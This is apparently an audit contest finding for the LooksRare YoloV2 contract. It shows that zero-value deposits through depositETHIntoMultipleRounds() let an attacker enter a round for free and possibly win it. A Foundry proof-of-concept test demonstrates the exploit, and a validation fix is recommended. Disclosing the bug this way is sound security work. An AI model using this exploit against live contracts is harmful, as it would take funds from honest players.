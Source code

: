 Great Carmine Fox

high

# An attacker can win a round while depositing no assets

## Summary
The function [`depositETHIntoMultipleRounds()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312-L362) can be used to perform a deposit of 0 ETH and still get a chance at winning the round.

## Vulnerability Detail
The function [`depositETHIntoMultipleRounds()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312-L362) deposits ETH in the current round and subsequent ones but lacks validation about deposits being greater than 0 in every round.

An attacker can specify `[0,1e16]` as the function input while sending along `1e16` ETH, this will add an entry in the `round.deposits` array of the current round where:
```solidity
{ 
   tokenAmount: 0, 
   depositor: msg.sender,
   currentEntryIndex: previousEntryIndex
}
```

which results in the `round.deposits` array having different elements with the same `currentEntryIndex`.

Subsequently when [`fulfillRandomWords()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1270-L1296) is called by the chainlink oracle the attacker will have a chance of winning because the winner is chosen based on the indexes of the `round.deposits` array:
```solidity
round.winner = round.deposits[currentEntryIndexArray.findUpperBound(winningEntry)].depositor;
``` 

and the function [`findUpperBound()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/libraries/Arrays.sol#L20) will operate on an array with repeated elements, [which should not be the case](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/libraries/Arrays.sol#L17-L18).

This gives the attacker a chance of being selected as the winner while depositing no assets.

### POC

The PoC shows Bob can win a round while depositing 0 ETH, can be copy-pasted in `Yolo.depositETHIntoMultipleRounds.t.sol`:
```solidity
function test_depositETHIntoMultipleRoundsZero() public {
    //Setup
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    vm.deal(alice, 100 ether);
    vm.deal(bob, 100 ether);
    uint256[] memory randomWords = new uint256[](1);
    randomWords[0] = 8129;

    //Alice gets a fair entry ticket in both the current round and the following one
    uint256[] memory amounts = new uint256[](2);
    amounts[0] = 0.1 ether;
    amounts[1] = 0.1 ether;
    vm.prank(alice);
    yolo.depositETHIntoMultipleRounds{value: 0.2 ether}(amounts);

    //Bob gets an unfair entry ticket in the current round and a fair entry ticket in the following one
    amounts[0] = 0;
    amounts[1] = 0.1 ether;
    vm.prank(bob);
    yolo.depositETHIntoMultipleRounds{value: 0.1 ether}(amounts);

    //The round is drawn and the winner is chosen
    (,,,uint40 cutoffTime,,,,,,) = yolo.getRound(1);
    vm.warp(cutoffTime + 1);
    yolo.drawWinner();
    vm.prank(VRF_COORDINATOR);
    VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

    //Bob is the winner
    (,,,,,, address winner,,,) = yolo.getRound(1);
    assertEq(winner, bob);
}
```
## Impact
An attacker can win a round while depositing no assets.

## Code Snippet
- [`depositETHIntoMultipleRounds()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312-L362)
## Tool used

Manual Review

## Recommendation
In [`depositETHIntoMultipleRounds()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L338-L340) add validation to make sure the deposit is greater than 0 on every round:
```solidity
uint256 depositAmount = amounts[i];
if (depositAmount % roundValuePerEntry != 0 || depositAmount == 0) {
    revert InvalidValue();
}
```
